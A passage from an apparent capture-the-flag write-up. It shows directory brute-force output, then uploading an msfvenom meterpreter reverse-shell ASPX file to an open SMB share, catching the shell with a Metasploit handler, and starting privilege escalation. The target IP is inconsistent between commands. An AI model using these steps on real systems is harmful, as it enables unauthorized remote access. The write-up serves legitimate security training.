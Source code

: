 ```
/%3FRID%3D2671        (Status: 400) [Size: 3420]
/devinmoore*          (Status: 400) [Size: 3420]
/200109*              (Status: 400) [Size: 3420]
/*sa_                 (Status: 400) [Size: 3420]
/*dc_                 (Status: 400) [Size: 3420]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 3420]
/Clinton%20Sparks%20%26%20Diddy%20-%20Dont%20Call%20It%20A%20Comeback%28RuZtY%29 (Status: 400) [Size: 3420]
/Chamillionaire%20%26%20Paul%20Wall-%20Get%20Ya%20Mind%20Correct (Status: 400) [Size: 3420]
/DJ%20Haze%20%26%20The%20Game%20-%20New%20Blood%20Series%20Pt (Status: 400) [Size: 3420]
/http%3A%2F%2Fradar   (Status: 400) [Size: 3420]
/q%26a2               (Status: 400) [Size: 3420]
/login%3f             (Status: 400) [Size: 3420]
/Shakira%20Oral%20Fixation%201%20%26%202 (Status: 400) [Size: 3420]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 3420]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 3420]
/http%3A%2F%2Fswik    (Status: 400) [Size: 3420]
/nt4wrksv             (Status: 301) [Size: 159] [--> http://10.10.6.212:49663/nt4wrksv/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
The last result proves to be interesting as it the same name as the SMB share we saw earlier. Upon visiting, we get a blank screen but if we append with the passwords.txt filename we get the encoded passwords. Now that we know this is the same share, we can take advantage of this to get a shell.
## Exploitation
Now that we know we have access to the nt4wrksv share through the webserver, let's create a reverse shell and upload it through SMB. 
```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost={attacker IP} lport=4444 -f aspx > shell.aspx
$ smbclient //10.10.6.212/nt4wrksv -U guest
smb: \> put shell.aspx
```
Next, setup our listener before sending a GET request to our uploaded shell.
```
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost {attacker IP}
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```
In a separate terminal window
```
$ curl http://10.10.11.52:49663/nt4wrksv/shell.aspx`
```
Meterpreter session1 opened!
We can now start poking around. I immediately went to the `C:\Users` directory to look for the user flag. We have full access to Bob's user folder and therein lies the user flag on his Desktop. 
## Privilege Escalation
Let's enumerate our current priviledges.
```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
```